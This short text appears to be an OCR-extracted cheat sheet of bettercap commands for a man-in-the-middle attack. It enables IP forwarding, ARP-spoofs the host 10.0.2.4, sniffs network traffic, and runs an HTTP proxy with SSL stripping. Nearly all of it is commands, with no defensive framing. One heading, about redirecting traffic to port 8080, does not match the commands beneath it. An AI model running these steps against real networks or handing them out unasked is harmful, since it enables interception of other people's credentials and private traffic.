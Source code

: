 Listen network:

Redirect http and https traffic to port 8080:

	echo "1" > /proc/sys/net/ipv4/ip_forward

	net.probe on

Active ARP spoofing:

	sudo bettercap
	set arp.spoof.targets 10.0.2.4
	set arp.spoof.fullduplex true
	arp.spoof on

Active MITM listening:

	set net.sniff.verbose false
	net.sniff on

Active proxy:

	set http.proxy.sslstrip true
	http.proxy on
